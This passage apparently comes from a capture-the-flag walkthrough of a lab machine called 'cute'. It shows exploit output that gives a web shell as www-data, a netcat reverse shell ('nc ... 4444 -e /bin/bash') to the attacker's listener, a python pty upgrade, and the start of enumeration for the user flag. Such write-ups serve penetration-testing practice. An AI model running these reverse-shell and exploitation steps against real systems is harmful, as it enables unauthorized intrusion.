 ```javascript
[+] Registration successful with username: MlewE0MbVX and password: MlewE0MbVX

=======================================================
Sending Payload
=======================================================
signature_key: e97531d92273801db5cbb92fb557a295-MlewE0MbVX
signature_dsi: 000460c11f7433f51588aae295dfb157
logged in user: MlewE0MbVX
============================
Dropping to a SHELL
============================

command > whoami
www-data

command > 

```
`` We have achieved remote code execution via this primitive web shell. Next, let's upgrade this shell into a full reverse shell. ``

#### Reverse-shell

`` First Check whether netcat is installed or not on that machine, though it is ``
```bash

command > which nc
/usr/bin/nc


```
``Let's set up a Netcat listener on port 4444 and then connect back to our attack machine using our web shell.``
```bash
command > nc 192.168.49.103  4444 -e /bin/bash

```
`` Our Listener received the reverse shell
```bash
┌──(dx㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.103.128: inverse host lookup failed: Unknown host
connect to [192.168.49.103] from (UNKNOWN) [192.168.103.128] 56152
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@cute:/var/www/html/uploads$ 

```
#### USer-Flag
```bash
www-data@cute:/$ cd /var/
cd /var/
www-data@cute:/var$ ls -la
ls -la
total 48
drwxr-xr-x 12 root root  4096 Sep 17  2020 .
drwxr-xr-x 18 root root  4096 Sep 17  2020 ..
drwxr-xr-x  2 root root  4096 Jan 26  2021 backups
drwxr-xr-x 12 root root  4096 Sep 17  2020 cache
drwxr-xr-x 38 root root  4096 Jan 21  2021 lib
drwxrwsr-x  2 root staff 4096 Jul 10  2020 local
lrwxrwxrwx  1 root root     9 Sep 17  2020 lock -> /run/lock
drwxr-xr-x 10 root root  4096 Sep  9 12:27 log
drwxrwsr-x  2 root mail  4096 Jan 20  2021 mail
```